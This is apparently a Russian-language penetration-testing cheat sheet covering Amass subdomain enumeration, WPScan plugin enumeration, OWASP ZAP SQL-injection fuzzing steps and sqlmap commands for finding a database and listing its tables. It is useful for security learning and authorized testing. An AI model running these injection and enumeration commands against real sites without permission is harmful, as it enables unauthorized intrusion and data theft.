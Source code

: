 
## 🧭 Amass — Subdomain Enumeration
```bash
amass enum -d example.com
amass enum -passive -d example.com
amass enum -passive -d example.com -src -dir ./output
# Показывает источники + сохраняет в каталог
```
🔗 https://github.com/owasp-amass

---

## 🛠 WPScan — WordPress Аудит
```bash
wpscan --url https://example.com
wpscan --url https://example.com --enumerate p --plugins-detection aggressive
wpscan --url https://example.com --enumerate p --plugins-detection aggressive --api-token YOUR_API_KEY
```

---

## 🧪 OWASP ZAP — SQL Injection via Fuzzing
1. Запусти OWASP ZAP → открой браузер через иконку.
2. Перейди на целевой сайт.
3. В секции “Sites” → правый клик по нужному запросу → `Attack → Fuzz`.
4. Удали значение параметра → выдели пустое место → `Add`.
5. Выбери: `File Fuzzers → jbrofuzz → SQL Injection`.
6. Нажми `Add → OK → Start Fuzzer`.
7. Смотри `State` → ищи `Reflected`.

---

## 🐍 SQLMap — Автоматизация SQL-инъекций

### Инъекция через URL/параметры:
```bash
sqlmap -u "http://target.com/index.php?id=1" --data="id=1" -p id --method POST
```

### Использование захваченного запроса:
```bash
sqlmap -r request.txt -p vulnerableParam --technique=E
```

### Получение текущей БД:
```bash
sqlmap -r request.txt -p vulnerableParam --technique=E --current-db
```

### Просмотр таблиц:
```bash
sqlmap -r request.txt -p vulnerableParam --technique=E -D DBNAME --tables
```
